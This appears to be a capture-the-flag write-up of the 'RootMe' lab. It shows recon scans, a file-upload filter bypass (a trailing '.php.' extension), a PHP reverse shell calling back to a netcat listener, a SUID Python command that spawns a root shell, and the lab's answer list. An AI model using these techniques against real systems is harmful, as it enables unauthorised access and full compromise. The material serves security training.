



<br>

- **Description**: can you root me?
- **Level**: easy
- **Category**: Web/Linux
- **Vulnerability**: 
    - **Initial access**: File upload 
    - **Privilege escalation**: SUID Python 


## Recon

```bash
$ curl http://rootme.thm                             
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/home.css">
    <script src="js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="main-div">
        <p class="title">root@rootme:~#</p>
        <p class="description">
            Can you root me?
        </p>
    </div>

    <!--  -->

    <script>
        const titulo = document.querySelector('.title');
        typeWrite(titulo);
    </script>
</body>
</html>
```

## Nmap tcp scanning 
```bash
$ nmap -sC -sV -p- -Pn --min-rate=2000 -T4 -oN tcp.txt rootme.thm

Host is up (0.29s latency).
Not shown: 46605 closed tcp ports (conn-refused), 18928 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## Directory Listing
```bash
$ gobuster dir -u http://rootme.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt -o /home/kali/tools/ctf/thm/easy/rootme/gobuster.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 20476 / 20477 (100.00%)
===============================================================
Finished
===============================================================
```




## What just happened?
### Obfuscation 
After attempting to upload a `.php` file, I encountered an error. However, when I tried uploading a `.txt` file, it was successfully uploaded. This indicates that `.php` file extensions are likely being filtered or blacklisted.

A common technique to bypass file extension restrictions is to obfuscate the extension itself. For example, using `.pHp` instead of `.php` can sometimes bypass case-sensitive filters, potentially allowing malicious PHP files to slip through validation and be executed on the target server. The other techniques include appending multiple extensions, such as `.php.jpg`, adding trailing characters like `.php.`, or using URL encoding, such as `revshell%2Ephp`. 

After testing these bypass techniques, I discovered that the server is indeed vulnerable to file upload vulnerabilities by simply adding a trailing character `(e.g., .php.)` successfully bypasses the restrictions. 

# Initial access
```bash
# executing php reverse shell 
$ curl http://rootme.thm/uploads/rev.php.
```
## Netcat listener
```bash
┌──(l0n3m4n㉿kali)-[~/…/ctf/thm/easy/rootme]
└─$ sudo rlwrap -cAr nc -lvnp 443
[sudo] password for l0n3m4n: 
listening on [any] 443 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.97.42] 46420
Linux rootme 4.15.0-112-generic
 02:51:35 up 21 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 
```
## Getting stable shell
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=linux
export TERM=linux
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```
# Post Enumeration
## Network information 
```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:7c:57:90:c3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.97.42/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3236sec preferred_lft 3236sec
    inet6 fe80::94:7cff:fe57:90c3/64 scope link 
       valid_lft forever preferred_lft forever


(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0    712 10.10.97.42:46434       10.23.42.147:443        ESTABLISHED 1596/sh              on (0.52/0/0)
tcp        0      0 10.10.97.42:46426       10.23.42.147:443        CLOSE_WAIT  1540/sh              off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      -                    off (0.00/0/0)
tcp6       1      0 10.10.97.42:80          10.23.42.147:58150      CLOSE_WAIT  -                    keepalive (6256.10/0/0)
tcp6       0      0 10.10.97.42:80          10.23.42.147:44840      ESTABLISHED -                    keepalive (6991.06/0/0)

```
## Environment variables
```bash
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=1f6c612169b04bb69c7a1ba152d19bc5
APACHE_LOCK_DIR=/var/lock/apache2
PWD=/
JOURNAL_STREAM=9:19828
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
TERM=linux
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
_=/usr/bin/env
```
## View recently installed software
```bash
www-data@rootme:/$ grep " install " /var/log/dpkg.log

grep " install " /var/log/dpkg.log
2020-02-03 18:22:20 install base-passwd:amd64 <none> 3.5.44
2020-02-03 18:22:20 install base-files:amd64 <none> 10.1ubuntu2
2020-02-03 18:22:21 install libc6:amd64 <none> 2.27-3ubuntu1
2020-02-03 18:22:21 install perl-base:amd64 <none> 5.26.1-6
2020-02-03 18:22:22 install mawk:amd64 <none> 1.3.3-17ubuntu3
2020-02-03 18:22:22 install debconf:all <none> 1.5.66
2020-02-03 18:22:22 install bash:amd64 <none> 4.4.18-2ubuntu1
2020-02-03 18:22:22 install bsdutils:amd64 <none> 1:2.31.1-0.4ubuntu3
2020-02-03 18:22:22 install coreutils:amd64 <none> 8.28-1ubuntu1
2020-02-03 18:22:22 install dash:amd64 <none> 0.5.8-2.10
2020-02-03 18:22:22 install debianutils:amd64 <none> 4.8.4
2020-02-03 18:22:22 install diffutils:amd64 <none> 1:3.6-1
2020-02-03 18:22:23 install e2fsprogs:amd64 <none> 1.44.1-1
2020-02-03 18:22:23 install fdisk:amd64 <none> 2.31.1-0.4ubuntu3
...
```
## OS information
```bash
$ uname -a && cat /etc/os-release

uname -a && cat /etc/os-release
Linux rootme 4.15.0-112-generic 

NAME="Ubuntu"
VERSION="18.04.4 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```
## Users and groups
```bash
www-data@rootme:/$ cat /etc/passwd | grep 100* && cat /etc/group | grep 100* && id 

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
test:x:1001:1001:,,,:/home/test:/bin/bash

# groups
uucp:x:10:
users:x:100:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:rootme
mlocate:x:109:
uuidd:x:110:
rootme:x:1000:
test:x:1001:

# id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Privilege Escalation (SUID)
```bash
www-data@rootme:/$ find / -type f -perm -u=s 2> /dev/null
find / -type f -perm -u=s 2> /dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
...
...
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
## 
```bash
www-data@rootme:/var/www$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
 ls -l {} \; 2> /dev/nullm -u+s -o -perm -g+s \) -exec 
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/pam_extrausers_chkpwd
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwxr-sr-x 1 root tty 14328 Jan 17  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwxr-sr-x 1 root crontab 39352 Nov 16  2017 /usr/bin/crontab
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwxr-sr-x 1 root tty 30800 Jan  8  2020 /usr/bin/wall
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
-rwxr-sr-x 1 root mlocate 43088 Mar  1  2018 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 71816 Mar 22  2019 /usr/bin/chage
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwxr-sr-x 1 root ssh 362640 Mar  4  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 22808 Mar 22  2019 /usr/bin/expiry
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
...
...
-rwsr-xr-- 1 root dip 394984 Feb 11  2020 /snap/core/9665/usr/sbin/pppd
-rwsr-xr-x 1 root root 43088 Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 26696 Jan  8  2020 /bin/umount

```
 

## Escalation process 
> found in [SUID GTFObins](https://gtfobins.github.io/gtfobins/python/#suid)
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=linux

www-data@rootme:/$ ls -al $(which python)

-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python

www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
 
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
 
# cat root.txt 
```

## Flags
- Scan the machine, how many ports are open?
    - **ans**: 2    
- What version of Apache is running?
    - **ans**: 2.4.29 
- What service is running on port 22?
    - **ans**: ssh
- What is the hidden directory?
    - **ans**: /panel
- Find a form to upload and get a reverse shell, and find the flag.
    - **user**: THM{REDACTED}
- Search for files with SUID permission, which file is weird?
    - **ans**: /usr/bin/python
- Find a form to escalate your privileges.
    - **root**: THM{REDACTED}
Here's a refined version:

If you're feeling lazy and want to streamline the escalation process, you can automate it by running LinPEAS. This tool saves time, as manually hunting for vulnerabilities can be time-consuming. LinPEAS automates the entire enumeration process, providing a color-coded output that highlights critical issues, such as PE vectors. This allows even the laziest pentesters to quickly spot potential paths for privilege escalation and take action accordingly.
